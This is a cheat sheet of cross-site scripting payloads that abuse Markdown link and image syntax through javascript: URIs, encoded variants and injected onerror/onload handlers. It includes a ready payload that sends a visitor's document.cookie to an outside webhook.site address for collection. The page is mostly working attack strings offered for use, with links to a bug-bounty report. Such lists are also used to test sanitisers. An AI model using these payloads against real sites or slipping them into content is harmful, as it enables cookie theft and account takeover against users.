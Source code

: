 ## XSS via Markdown Payloads 

#### Hyperlink to XSS

```bash
[a](javascript:this;alert(1))
[a](javascript:this;alert(1&#41;)
[a](javascript&#58this;alert(1&#41;)
[a](http://a?p=[[/onclick=alert(0) .]])
[a](javascript:new%20Function`al\ert\`1\``;)
[a](Javas&#99;ript:alert(1&#41;)
[a](Javas%26%2399;ript:alert(1&#41;)
[a](javascript:alert&#65534;(1&#41;)
[a](javascript:confirm(1)
[a](javascript://www.google.com%0Aprompt(1))
[a](javascript://%0d%0aconfirm(1);com)
[a](javascript:window.onerror=confirm;throw%201)
[a](javascript:alert(document.domain&#41;)
[a](javascript://www.google.com%0Aalert(1))
[a]('javascript:alert("1")')
[a](JaVaScRiPt:alert(1))
![a](https://lnkd.in/d-5FWcWe"onload="alert(1))
[a]("onerror="alert(1))
</http://<?php\><\h1\><script:script>confirm(2)
[XSS](.alert(1);)
```

#### Image to XSS

```bash
![XSS](x"onerror="alert(1)")
![XSS](x"onload="alert(1)")
![XSS](<"onerror="alert('XSS')>)
![XSS](<https://www.example.com/image.png"onerror="alert('XSS')>)
```

#### To Retrive user's Cookies on your Server

```bash
[XSS](javascript:window.onerror=window.location='https://webhook.site/09731cdb-80b0-47e8-a057-f86e939f1ad9?'+document.cookie)
```

#### Supporting Material:-
- https://huntr.dev/bounties/b2caceaa-5b28-40ba-9980-70144159efba/
- https://amjadali110.medium.com/hyperlink-injection-726d8151b216
